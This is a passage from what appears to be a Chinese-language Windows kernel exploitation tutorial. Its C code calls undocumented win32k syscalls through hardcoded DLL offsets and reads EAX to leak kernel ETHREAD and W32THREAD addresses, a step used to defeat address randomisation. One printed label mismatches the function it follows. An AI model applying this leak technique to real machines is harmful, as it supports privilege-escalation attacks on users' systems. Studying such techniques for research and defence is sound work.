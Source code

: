 

然后，我们对NtUserModifyUserStartupInfoFlags进行同样的处理。

```
lNtUserModifyUserStartupInfoFlags pNtUserModifyUserStartupInfoFlags = (lNtUserModifyUserStartupInfoFlags)((DWORD_PTR)hUser32 + 0x64D4B);
 
pNtUserModifyUserStartupInfoFlags(20, 12);
unsigned ethread_full = 0;
__asm `{`
    mov ethread_full, eax;
`}`
printf("NtUserModifyUserStartupInfoFlags ETHREAD full disclosure: 0x%Xrn", ethread_full);
```

接下来，我们需要调用暴露W32THREAD指针的函数，它们都是在gdi32.dll中定义的，所以我们需要得到该DLL的句柄，然后就可以像前面那样来调用这些函数了。



```
HMODULE hGDI32 = LoadLibraryA("gdi32.dll");
if (hGDI32 == NULL) `{`
    printf("Failed to load gdi32");
    return 1;
`}`
 
lNtGdiFONTOBJ_vGetInfo pNtGdiFONTOBJ_vGetInfo = (lNtGdiFONTOBJ_vGetInfo)((DWORD_PTR)hGDI32 + NtGdiFONTOBJ_vGetInfoAddress);
FONTOBJ surf = `{` 0 `}`;
FONTINFO finfo = `{` 0 `}`;
pNtGdiFONTOBJ_vGetInfo(&amp;surf, 123, &amp;finfo);
 
long int w32thread = 0;
__asm `{`
    mov w32thread, eax;
`}`
 
printf("NtGdiEngUnLockSurface W32THREAD full disclosure: 0x%Xrn", w32thread);
 
lNtGdiPATHOBJ_vEnumStartClipLines pNtGdiPATHOBJ_vEnumStartClipLines = (lNtGdiPATHOBJ_vEnumStartClipLines)((DWORD_PTR)hGDI32 + 0x47263);
PATHOBJ pathobj = `{` 0 `}`;
CLIPOBJ pco = `{` 0 `}`;
SURFOBJ pso = `{` 0 `}`;
LINEATTRS pla = `{` 0 `}`;
pNtGdiPATHOBJ_vEnumStartClipLines(&amp;pathobj, &amp;pco, &amp;pso, &amp;pla);
w32thread = 0;
__asm `{`
    mov w32thread, eax;
`}`
printf("NtGdiPATHOBJ_vEnumStartClipLines W32THREAD full disclosure: 0x%Xrn", w32thread);
```

编译并运行代码，我们就可以看到被暴露的地址了。

